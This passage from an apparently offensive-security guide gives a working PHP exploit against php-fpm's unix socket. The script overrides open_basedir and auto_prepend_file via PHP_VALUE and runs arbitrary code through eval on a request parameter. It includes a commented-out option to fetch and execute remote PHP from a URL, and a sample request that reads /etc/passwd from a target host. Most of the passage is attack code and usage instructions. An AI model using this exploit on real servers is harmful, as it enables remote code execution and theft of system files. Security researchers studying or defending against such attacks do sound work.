```php
            case self::REQUEST_COMPLETE:
                return $response;
        }
    }
}
?>
<?php
// real exploit start here
if (!isset($_REQUEST['cmd'])) {
    die("Check your input\n");
}
if (!isset($_REQUEST['filepath'])) {
    $filepath = __FILE__;
}else{
    $filepath = $_REQUEST['filepath'];
}
$req = '/'.basename($filepath);
$uri = $req .'?'.'command='.$_REQUEST['cmd'];
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php eval(\$_REQUEST['command']);?>"; // php payload -- Doesnt do anything
$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
//$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = http://127.0.0.1/e.php";
$params = array(
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD'    => 'POST',
        'SCRIPT_FILENAME'   => $filepath,
        'SCRIPT_NAME'       => $req,
        'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
        'REQUEST_URI'       => $uri,
        'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
        'PHP_VALUE'         => $php_value,
        'SERVER_SOFTWARE'   => '80sec/wofeiwo',
        'REMOTE_ADDR'       => '127.0.0.1',
        'REMOTE_PORT'       => '9985',
        'SERVER_ADDR'       => '127.0.0.1',
        'SERVER_PORT'       => '80',
        'SERVER_NAME'       => 'localhost',
        'SERVER_PROTOCOL'   => 'HTTP/1.1',
        'CONTENT_LENGTH'    => strlen($code)
        );
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

This scripts will communicate with **unix socket of php-fpm** (usually located in /var/run if fpm is used) to execute arbitrary code. The `open_basedir` settings will be overwritten by the  **PHP\_VALUE** attribute that is sent.\
Note how `eval` is used to execute the PHP code you send inside the **cmd** parameter.\
Also note the **commented line 324**, you can uncomment it and the **payload will automatically connect to the given URL and execute the PHP code** contained there.\
Just access `http://vulnerable.com:1337/l.php?cmd=echo file_get_contents('/etc/passwd');` to get the content of the `/etc/passwd` file.
